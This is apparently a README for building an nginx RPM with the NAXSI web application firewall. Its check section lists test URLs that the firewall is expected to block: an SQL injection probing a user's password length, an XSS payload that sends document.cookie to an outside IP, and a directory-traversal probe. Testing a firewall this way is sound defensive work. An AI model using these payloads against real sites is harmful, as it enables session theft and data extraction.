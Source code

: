 # nginx-naxsi-rpmbuild

To create nginx-naxsi rpm using below command.

```
$ rpmbuild -ba rpmbuild/SPECS/nginx-naxsi.spec
```

##### for check

【SQL Injections】NG
https://127.0.0.1/?para=admin' and (Select count(*) from data where uname='wucm' and len(upass)<10)>0 and 'a'='a


【Cross Site Scripting】NG
https://127.0.0.1/?para=<script>window.open('http://10.65.20.196:8080/cookie.asp?msg='+document.cookie)</script>


【Directory traversal】NG
https://127.0.0.1/?para=..

